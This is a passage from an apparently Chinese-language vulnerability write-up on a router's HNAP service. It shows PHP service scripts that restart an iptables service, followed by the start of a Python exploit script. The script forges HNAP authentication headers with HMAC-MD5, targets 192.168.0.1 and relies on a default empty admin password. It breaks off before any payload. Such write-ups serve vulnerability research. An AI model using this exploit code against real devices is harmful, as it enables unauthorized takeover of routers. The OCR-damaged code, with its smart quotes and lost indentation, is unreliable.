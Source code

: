 HTTP.WAN-1是一种服务，对应于/etc/services/HTTP.WAN-1.php，该服务会开启IPT.WAN-1服务

```
<?
include "/etc/services/HTTP/httpsvcs.php";
fwrite("w",$START,"#!/bin/sh\n");
fwrite("w", $STOP,"#!/bin/sh\n");
fwrite("a",$START,"service IPT.WAN-1 restart\n");#here!!!!
fwrite("a",$START,"service STUNNEL restart\n");
httpsetup("WAN-1");
?> 
```

/etc/services/IPT.WAN-1.php会执行之前所说的iptables命令

```
<?
include "/htdocs/phplib/trace.php";
include "/etc/services/IPTABLES/iptwan.php";
IPTWAN_build_command("WAN-1");
?> 
```

### 漏洞复现

```
import requests
import telnetlib
from hashlib import md5
import time
import math

trans_5C = “”.join(chr(x ^ 0x5c) for x in xrange(256))

trans_36 = “”.join(chr(x ^ 0x36) for x in xrange(256))

blocksize = md5().block_size

def hmac_md5(key, msg):

if len(key) > blocksize:

key = md5(key).digest()

key += chr(0) * (blocksize - len(key))

o_key_pad = key.translate(trans_5C)

i_key_pad = key.translate(trans_36)

return md5(o_key_pad + md5(i_key_pad + msg).digest())

def HNAP_AUTH(SOAPAction, privateKey):

b = math.floor(int(time.time())) % 2000000000

b = str(b)[:-2]

h = hmac_md5(privateKey, b + ‘"[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)’ + SOAPAction + ‘"’).hexdigest().upper()

return h + " " + b

#输入IP和admin口令，通过读hnap_main的二进制，理解初始状态admin的口令为空（public_key_0：0代表空值）

IP = ‘192.168.0.1’
```